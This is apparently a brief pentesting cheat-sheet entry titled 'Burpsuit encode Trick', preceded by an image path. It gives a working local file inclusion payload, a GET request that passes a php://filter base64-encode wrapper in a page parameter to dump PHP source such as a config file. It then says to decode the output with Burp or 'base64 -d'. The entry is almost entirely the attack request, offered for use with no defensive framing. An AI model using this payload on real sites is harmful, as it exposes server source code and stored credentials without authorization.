 # Web encode to read PHP files

## Burpsuit encode Trick

GET /?page='php://filter/convert.base64-encode/resource'=<Page to read>

`GET /?page=php://filter/convert.base64-encode/resource=config`

After this you can use decode from burpsuit or 'base64 -d' from linux terminal.
